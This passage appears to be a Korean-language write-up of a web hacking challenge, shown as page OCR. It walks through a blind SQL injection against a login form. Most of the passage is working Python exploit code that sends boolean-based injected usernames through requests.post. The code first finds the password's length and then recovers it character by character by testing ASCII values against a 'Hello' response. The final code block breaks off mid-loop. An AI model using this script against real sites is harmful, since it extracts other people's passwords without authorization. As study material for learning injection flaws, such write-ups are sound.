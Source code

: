     |

3. 결과 확인

    ```python
    print(find_password(url, password_length, username, password))
    ```

    |

4. 완성된 find_password()

    ```python
    def find_password(url, password_length, username, password):
        string = ""
        for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
            print(f"{length}번째 문자 탐색 중...")
            for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
                payload = {"username":f"{username}' AND ASCII(SUBSTRING(password, {length}, 1)) = {ascii_code} -- 1", "password":f"{password}"}
                res = requests.post(url, data=payload)
                if "Hello" in res.text:
                    string+= chr(ascii_code) # ascii 값을 문자로 변환
                    print(f"현재까지 알아낸 비밀번호: {string}")
                    # return string 여기서 반환하면 안됨
                    break
        return string # 완성된 string 반환
            
    print(find_password(url, password_length, username, password))
    ```

|

|

|

## Exploit

```python
import requests

# 비밀번호 길이 찾기
def find_password_length(url, username, password):
	for length in range(0, 51): # 0부터 50까지
		payload= {"username": f"{username}' AND LENGTH(password) = {length} -- 1", "password": f"{password}"}
		res = requests.post(url, data=payload)
		if "Hello" in res.text:
			return length

# 비밀번호 찾기
def find_password(url, password_length, username, password):
    string = ""
    for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
        print(f"{length}번째 문자 탐색 중...")
        for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
            payload = {"username":f"{username}' AND ASCII(SUBSTRING(password, {length}, 1)) = {ascii_code} -- 1", "password":f"{password}"}
            res = requests.post(url, data=payload)
            if "Hello" in res.text:
                string+= chr(ascii_code) # ascii 값을 문자로 변환
```